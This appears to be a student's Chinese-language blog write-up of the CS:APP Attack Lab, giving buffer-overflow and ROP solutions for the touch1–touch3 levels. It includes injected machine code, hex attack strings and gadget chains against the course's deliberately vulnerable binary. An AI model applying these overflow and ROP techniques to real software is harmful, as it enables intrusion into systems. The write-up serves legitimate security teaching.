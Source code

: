 # Attack Lab

之前拖了一会儿作业，要去世了，现在补上吧

## touch1

这里是先执行test函数，然后退出。

但是要不执行完test，而去执行touch1

![image-20210504003846993](https://i.loli.net/2021/05/16/8sHPYmoVcapCBGu.png)

```c
unsigned int __cdecl getbuf()
{
  char buf[40]; // [rsp+0h] [rbp-28h] BYREF

  Gets(buf);
  return 1;
}
```

显然这里buf只开了40的内存，所以直接使用字符串攻击

```
.text:00000000004017C0 ; void __cdecl touch1()
```

所以使溢出的地址为touch1的地址即可（这里需要注意这个程序是小端的地址要倒写

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```

## touch2

这道题我一开始没看懂，一开始一直以为是参数压栈的方式来攻击，发现我多少有点大病，然后去看了一眼blog.，大致上的画了一张图。

![image-20210507154651560](C:\Users\77161\AppData\Roaming\Typora\typora-user-images\image-20210507154651560.png)

大致上是这么一个意思

将

```
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret
//转变为机械码
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
9:	68 ec 17 40 00       	pushq  $0x4017ec
e:	c3                   	retq  
```

所以攻击序列为

```
48 c7 c7 fa
97 b9 59 68
ec 17 40 00
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 dc 61 55
```

# touch3

![image-20210507154847522](https://i.loli.net/2021/05/16/IFfTnwOvuhA4XY2.png)

不难发现传入了一个参数这个参数与cookie进行了比较

![image-20210507155718748](https://i.loli.net/2021/05/16/Wq5MHs2z9YSubPK.png)

从汇编里可以发现了在touch3的开始将sval值设置成rdi，说明rdi是存放参数地址的那个寄存器。（PS：这里要求cookie是个字符串的所以要存在栈里）

所以有了以下攻击序列：

![image-20210507162145452](https://i.loli.net/2021/05/16/qy6FemW9Jzrhguf.png)

然后就mad显而易见的错误了，这里看到

![image-20210507162217555](https://i.loli.net/2021/05/16/kXhK5dj9LSGms3v.png)

在touch3里面有一个函数申请了110的空间，我直接az了，然后就有了下面这张

![image-20210507162313534](https://i.loli.net/2021/05/16/V4NvTFGZA7Pzc5K.png)

攻击序列：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 
00 00 00 00
```

ROP:

问了一些别的师傅，我一开始是不了解ROP的；

ROP简单来说有两个特性：

1.栈随机

2.栈只可读

 ## touch2:



![image-20210507162618951](https://i.loli.net/2021/05/16/UgaJkWCj8xqOQtS.png)

这里说明需要从Gadget中找到对应的片段来进行攻击就行了：

（然后悄悄地看了眼达不溜屁，

可以找到两个满足条件的gadget

```
popq     %rax
ret                  
mov      %rax,%rdi
ret
```

这里将rax出栈赋值成cookie，然后复制给rdi

于是攻击字符串为：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
2d 1a 40 00 00 00 00 00 	//gadget1的起始地址
00 16 fb 73 00 00 00 00     //cookie
41 1a 40 00 00 00 00 00     //gadget2的起始地址
67 18 40 00 00 00 00 00     //touch2 的起始地址
```

## ROP touch3

这个我是真的没找到我直接看blog的，下面贴出所找到的指令：

```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```

先把`%rsp`存储的栈顶指针值复制给`%rdi`， 再将`%eax`的值设置为`cookie`字符串地址在栈中的偏移量并复制给`%esi`，最后将二者相加即为`cookie`字符串的存储地址。当指令指到ret指令行时，说明一个函数已经结束了，这时候%rsp已经从被调用函数的栈指到了调用函数构建的返回地址位置。
所以当执行第一条指令时，%rsp指向当前栈顶即存储下一条指令的地址，而后面的指令执行完后最终不会使该%rsp值改变。
在第一条指令之后即从第二条指令开始，cookie字符串之前还有有9条指令，共占有72个字节即0x48字节，此即cookie字符串的地址在栈中的偏移量。

攻击字符串：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
//以上（任意字节除0x0a）填充满整个缓冲区（56字节）以致溢出。
b7 1a 40 00 00 00 00 00 
//用gadget1的起始地址覆盖掉原先的返回地址。
41 1a 40 00 00 00 00 00  //gadget2的起始地址。
2d 1a 40 00 00 00 00 00  //gadget3的起始地址。
48 00 00 00 00 00 00 00  //cookie字符串地址在栈中的偏移量。
53 1a 40 00 00 00 00 00  //gadget4的起始地址。
a9 1a 40 00 00 00 00 00  //gadget5的起始地址。
ca 1a 40 00 00 00 00 00  //gadget6的起始地址。
4c 1a 40 00 00 00 00 00  //gadget7的起始地址。
41 1a 40 00 00 00 00 00  //gadget8的起始地址。
75 19 40 00 00 00 00 00  //touch3 的起始地址。
37 33 66 62 31 36 30 30  //cookie字符串的字节表示。
```

完结撒花

PS：最近在写BUU的WP，所以有点拖拉，尽量在近期将BUU的WP发出来，博客搞搞完。

